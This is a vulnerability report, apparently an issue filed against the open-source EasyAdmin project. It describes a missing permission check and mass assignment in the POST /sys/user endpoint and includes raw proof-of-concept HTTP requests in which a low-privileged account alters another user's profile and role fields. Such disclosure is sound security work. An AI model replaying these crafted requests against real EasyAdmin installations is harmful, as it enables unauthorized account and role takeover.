







## Vulnerability Description

EasyAdmin (master branch) contains a vertical privilege escalation vulnerability in the "System - User Management -> Edit User" function. The `SysUserController#saveOrUpdate` method processes update requests (the `else` branch of `POST /sys/user`) without any permission verification annotations (such as `@SaCheckPermission`). Although the frontend UI does not provide a modification entry for low-privileged accounts (e.g., `test02`) to edit other users, an attacker can manually craft HTTP requests to directly invoke this endpoint and modify the personal information (such as passwords and roles) of any user in the system, including the super administrator (`admin`). Furthermore, the endpoint lacks a whitelist for the incoming entity fields, resulting in a Mass Assignment risk. This vulnerability leads to a complete failure of the system's access control.

Gitee：https://gitee.com/lakernote/easy-admin

GitHub：https://github.com/lakernote/easy-admin

## **Vulnerability Analysis**

com.laker.admin.module.sys.controller.SysUserController#saveOrUpdate



**Call Chain**

```
System Management -> User Management            user.html
└─ row [Edit] button                            user.html
   └─ edit.html?id=<userId>                     edit.html
      └─ POST /sys/user (type: post)            edit.html:118-123
         └─ SysUserController#saveOrUpdate      SysUserController.java:106
            └─ else branch (userId != null)     SysUserController.java:121-123
```

## Steps to Reproduce

**1. Login with Low-Privileged Credentials**

Access the EasyAdmin login page, enter the low-privileged account `test02` and password `123456`, and click login to successfully enter the backend management dashboard. After a successful login, obtain the credential for this account: `LakerToken: 87cd80c3bc7e4bfab5836d5a1b1fbe80`.






**Login Request**

```
POST /sys/auth/v1/login HTTP/1.1
Host: localhost:8080
Content-Length: 101
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"username":"test02","password":"123456","captchaCode":"11","uid":"209c366011c8454498ef4ba498e7d294"}
```

**2. Observe data packets for location function points**

Since the front-end page does not provide an entry for modifying users for low-privilege accounts, we directly use Burp Suite to intercept or construct requests to the target API.

We observed that the request for updating user information is `POST /sys/user`, and the JSON request body contains sensitive fields such as userId, roleIds, and nickName.



**3. Construct Payload and Verify the Vulnerability**

Navigate to **System Management → User Management** from the left navigation bar. Log in with the low-privilege account `test02` to obtain the LakerToken: `87cd80c3bc7e4bfab5836d5a1b1fbe80`. Manually construct the `POST /sys/user` request, set `userId` to 16 (the `laker` account), and tamper with its nickname and email fields.

After sending the request, the server returns `{"msg":"Operation successful"}`.



```
POST /sys/user HTTP/1.1
Host: localhost:8080
Content-Length: 218
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
LakerToken: 87cd80c3bc7e4bfab5836d5a1b1fbe80
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/view/system/user/edit.html?id=16
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"userName":"laker","nickName":"李哥修改","email":"1111","phone":"1","sex":"1","deptId":"14","deptName":"业务部修改","selectParent_select_input":"业务部修改","roleIds":"5","dataRoleId":"10","userId":"16"}
```

The page for low-privilege accounts does not provide a functional entry for user modification.



Then check the profile page of the `laker` account and confirm that its nickname has been successfully changed to "李哥修改" and the email to "1111". This proves that `test02` has successfully performed unauthorized modification of other users' data.


